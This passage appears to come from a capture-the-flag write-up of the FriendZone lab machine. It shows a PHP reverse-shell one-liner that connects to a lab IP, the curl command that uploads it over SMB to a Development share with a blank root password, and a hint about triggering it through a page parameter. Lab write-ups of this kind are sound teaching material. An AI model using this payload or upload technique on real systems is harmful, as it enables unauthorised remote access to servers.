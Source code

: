 There it explains how to access an image after uploading it. The image can be uploaded from **uploads.friendzone.red **subdomain . But I chose SMB to upload files as I don’t know where that uploaded image will be saved. So I opted for SMB file upload method as I knew that it will be saved in **/etc/Development .**

The file which I chose to upload was a one-liner bash shell, executed via php.
> <?php
> exec(“/bin/bash -c ‘bash -i >& /dev/tcp/10.10.14.48/1234 0>&1’”);
> phpinfo();
> ?>
The file can be uploaded by using this command.

`curl --upload-file /path/to/file.ext -u 'DOMAIN\Username' smb://172.16.17.52/ShareName/`

In this the command resorts to:
`curl --upload-file phpinfo.php -u 'root' smb://10.10.10.123/Development/`

It can be confirmed that file is uploaded by connectig to the SMB on port 445. Also the curl asks for root password while uploading, which is , by default, blank. So just hit enter and it will upload the file.

![1*rzl5Hk1BNeXj0cm2pwsojQ.png](../_resources/17d4057abfa4b3646114856ac945dbd5.png)
![1*rzl5Hk1BNeXj0cm2pwsojQ.png](../_resources/cda1c266dfcc08e0ea3751e6fe8f6836.png)
uploding my php reverse shell

So, there are couple of other shells too. To get my shell, I will have to access that file , phpinfo.php in a web browser. While accessing dashboard.php, there was a hint on how to access the file.

> please enter it to show the image
> default is image_id=a.jpg&pagename=timestamp
